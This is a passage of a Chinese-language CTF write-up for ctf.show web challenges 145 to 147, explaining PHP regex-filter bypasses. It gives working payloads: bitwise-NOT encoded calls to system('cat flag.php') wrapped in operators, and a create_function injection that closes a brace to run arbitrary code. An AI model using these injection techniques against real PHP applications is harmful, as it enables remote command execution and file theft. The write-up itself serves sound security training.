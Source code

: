 相当于没有过滤, 注意位置

```
http://a05ac3c9-5f45-43bc-b04b-84e682344966.challenge.ctf.show/?v1=0&v2=(~%27%8C%86%8C%8B%9A%92%27)(~%27%9C%9E%8B%DF%99%93%9E%98%D1%8F%97%8F%27)&v3=-
```

## web145

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208131434297.png)

四则运算都被过滤了, 但根据上面的思路, 找到一个能使函数正常执行的运算符即可

[https://www.php.net/manual/zh/language.operators.php](https://www.php.net/manual/zh/language.operators.php)

这里用 `|`, 其实 `||` 也是可以的

```
http://8a65ee90-18a4-4768-a040-0c874ca10ad0.challenge.ctf.show/?v1=0&v2=0&v3=|(~%27%8C%86%8C%8B%9A%92%27)(~%27%9C%9E%8B%DF%99%93%9E%98%D1%8F%97%8F%27)|
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208131443162.png)

hint 用的是三目运算符 `a ? b : c ` 的形式

## web146

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208131445955.png)

三目运算符被 ban 了

上题的 payload 还能用

## web147

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208131449811.png)

限制不能只为字母数字和下划线

hint 提示为创建匿名函数...

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208131458431.png)

参考文章 [https://paper.seebug.org/755/](https://paper.seebug.org/755/)

使用根命名空间调用的方式, 在函数名前面加上 `\` 从而绕过正则过滤

```
GET: ?show=}system('cat flag.php');//
POST: ctf=\create_function
```

创建的匿名函数里面实际上也是字符串, 可以闭合大括号来执行任意代码 (否则不好直接回显)
